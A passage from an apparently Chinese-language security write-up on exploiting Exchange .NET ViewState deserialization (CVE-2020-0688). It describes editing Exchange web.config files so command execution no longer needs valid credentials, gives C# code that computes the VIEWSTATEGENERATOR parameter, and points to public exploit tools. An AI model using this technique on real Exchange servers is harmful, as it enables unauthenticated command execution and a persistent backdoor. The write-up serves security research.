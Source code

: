 也可以选用以下算法：

- MD5
- AES
- HMACSHA256
- HMACSHA384
- HMACSHA512 

密钥长度需要符合算法要求，学习资料：

https://devblogs.microsoft.com/aspnet/cryptographic-improvements-in-asp-net-4-5-pt-1/

(2)修改`%ExchangeInstallPath%\FrontEnd\HttpProxy\ecp\web.config`

方法同上

对于这两个位置的.Net反序列化命令执行，不再需要合法用户的凭据，所以利用程序也需要做修改。下面介绍三种利用程序实现的细节

## 0x04 实现细节
---

### 1.计算VIEWSTATEGENERATOR的两种方法

Exchange的.Net反序列化用的是ViewState，其中必备的参数为VIEWSTATEGENERATOR，例如Python实现的[CVE-2020-0688利用工具](https://github.com/Ridter/cve-2020-0688/blob/master/cve-2020-0688.py#L46)中使用的默认VIEWSTATEGENERATOR为`B97B4E27`，表示的页面为`ecp/default.aspx`，对应的[ysoserial.net](https://github.com/pwntester/ysoserial.net)的参数为`--path="/ecp/default.aspx" --apppath="/ecp/"`

下面介绍两种计算VIEWSTATEGENERATOR的方法：

C#实现的代码如下：

```
using System;
class a
{
    static void Main(string[] args)
    {
        int hashcode = StringComparer.InvariantCultureIgnoreCase.GetHashCode("/ecp");
	uint _clientstateid=(uint)(hashcode
+StringComparer.InvariantCultureIgnoreCase.GetHashCode("default_aspx"));
Console.WriteLine(_clientstateid.ToString("X2"));
    }
}
```

得出结果为B97B4E27

**注：**

代码来自http://www.zcgonvh.com/post/weaponizing_CVE-2020-0688_and_about_dotnet_deserialize_vulnerability.html

也可以通过网页自动计算，方法如下：

在实际测试环境中，修改ecp/default.aspx的内容如下：

```
<!DOCTYPE HTML>
<html>
<body>
    <form runat="server">
    </form>
</body>
</html>
```
